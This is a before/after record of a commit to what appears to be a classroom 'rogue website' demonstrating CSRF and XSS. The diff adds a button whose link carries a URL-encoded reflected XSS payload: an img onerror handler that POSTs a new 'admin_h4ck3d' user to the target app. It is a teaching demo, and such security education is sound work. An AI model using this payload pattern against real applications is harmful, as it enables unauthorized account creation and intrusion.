

Before and after one commit to utfpr-cesc/csrf-xss-rogue-website, a website: page public/index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
XSS attack implementation.

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -73,6 +73,16 @@
       Yes, deploy CSRF!
     </a>
 
+    <a
+      class="attack-button"
+      href="http://application.com:3000/users/search?query=%3Cimg+src%3D1+href%3D1+onerror%3D%22javascript%3Afetch%28%27http%3A%2F%2Fapplication.com%3A3000%2Fusers%27%2C+%7B+headers%3A+%7B+%27Content-Type%27%3A+%27application%2Fjson%27+%7D%2C+body%3A+JSON.stringify%28%7B+username%3A+%27admin_h4ck3d%27%2C+password%3A+%27h4ck3d%27+%7D%29%2C+method%3A+%27POST%27+%7D%29.then%28%28%29+%3D%3E+alert%28%27h4ck3d%27%29%29%22%3E%3C%2Fimg%3E"
+      target="_blank"
+      rel="noopener noreferrer"
+    >
+      &#x1f577; <!-- Spider emoji. -->
+      Yes, do some XSS!
+    </a>
+
     <div id="csrfWrapper">
       <h3>CSRF deployed</h3>
       <p>
```
